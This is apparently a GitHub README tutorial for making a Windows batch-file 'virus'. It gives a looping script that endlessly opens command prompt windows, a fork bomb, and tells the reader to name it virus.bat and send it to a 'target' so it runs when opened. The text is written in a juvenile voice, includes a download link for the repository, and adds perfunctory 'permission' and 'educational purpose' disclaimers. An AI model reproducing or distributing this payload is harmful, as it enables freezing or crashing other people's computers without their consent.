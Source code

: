 to spam an app on to your victems laptop, desktop or pc all you gotta do is follow this simple steps 
# Disclamer do not do it without permission by the way this only works for laptop, desktop and pc
Step 1: open the notepad on your computer or whatever
Step 2: type in the following commands
Code: @echo off
       :loop
       start
       start
       start
       start
       goto loop
Step 3: click exit and save make sure you wrote start 4 times
Step 4: name the file virus.bat and save it where ever you want
Step 5: send the file to a target and as soon as they open it cmd (command prompt) will spam open so many times       
# Educational purpose use only
# easy download here -> https://github.com/Hassan1hacker/Spam-app-opening/archive/refs/heads/main.zip
